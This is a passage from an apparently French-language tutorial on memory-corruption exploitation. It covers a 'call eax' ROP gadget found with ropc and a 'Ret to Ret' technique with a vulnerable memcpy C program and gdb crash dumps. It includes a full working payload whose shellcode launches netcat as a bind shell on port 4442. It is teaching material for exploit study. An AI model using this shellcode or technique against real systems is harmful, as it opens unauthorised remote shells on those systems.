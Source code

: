 On voit qu'au moment du plantage, eax contient l'adresse de notre buffer. Si on trouve un gadget permettant de jumper sur eax, on pourra détourner le flux d'exécution avec un shellcode de notre cru.

	:::console
	$ ropc -f ./a.out -g -F | grep "call\|jmp" | grep eax
	0x08048396  -> call eax ; leave ; ret ;

Voilà le gadget qu'il nous faut ! On a plus qu'à mettre un shellcode (ici un netcat) au début du buffer et de jumper dessus.

Notre payload ressemblera à :

	:::console
	[ SHELLCODE | PADDING | call eax (saved EIP) ]

	:::console
	$ ./a.out `perl -e 'print "\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x68\x2d\x6c\x76\x70\x89\xe0\x52\x68\x34\x34\x34\x32\x89\xe1\x52\x68\x2d\x76\x76\x65\x89\xe5\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe7\x52\x57\x55\x51\x50\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x197 . "\x96\x83\x04\x08";'`
	Listening on any address 4442 (saris)

 
##0x01 Ret to Ret

Utilité : Cette technique peut être utile dans le cas où l'ASLR et/ou PIE est en place, mais où N^X n'est pas activé.
Principe : il s'agit de dépiler les valeurs situées sur la pile, jusqu'à ce qu'on ai une adresse pouvant être utile pour poursuivre l'exploitation (fonction, gadget, payload...).

Voici l'exemple utilisé pour cette technique :

    :::c
	#include <string.h>

	void foo(const char *b, size_t s) {
	    char buff[256];

	    memcpy(buff, b, s);
	}

	int main(int argc, char **argv) {

	    foo(argv[1], atoi(argv[2]));

	    return 0;
	}

Jouons la vulnérabilité et examinons la stack au moment du plantage :

	:::console
	gdb$ r `perl -e 'print "ABCD"."A"x268;'` 400
	Starting program: /home/tosh/Downloads/a.out `perl -e 'print "ABCD"."A"x268;'` 400
	warning: Could not load shared library symbols for linux-gate.so.1.
	Do you need "set solib-search-path" or "set sysroot"?

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0xBFFFF8F0  EBX: 0xB7FB9000  ECX: 0x00000000  EDX: 0x00000000  o d I t s z a p c 
	  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFFA00  EIP: 0x41414141
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x41414141
	0x41414141 in ?? ()
	gdb$ x/50xw $esp
	0xbffffa00:     0x30303400      0x47445800      0x4e54565f      0x00313d52
	0xbffffa10:     0x5f485353      0x4e454741      0x49505f54      0x31333d44
	0xbffffa20:     0x44580037      0x45535f47      0x4f495353      0x44495f4e
	0xbffffa30:     0x4400313d      0x544b5345      0x535f504f      0x54524154
	0xbffffa40:     0x495f5055      0x77613d44      0x6d6f7365      0x74612f65
	0xbffffa50:     0x2f6d7265      0x2d333433      0x61722d30      0x3030646e
	0xbffffa60:     0x49545f6d      0x3933454d      0x00393137      0x4c454853
	0xbffffa70:     0x622f3d4c      0x622f6e69      0x00687361      0x4d524554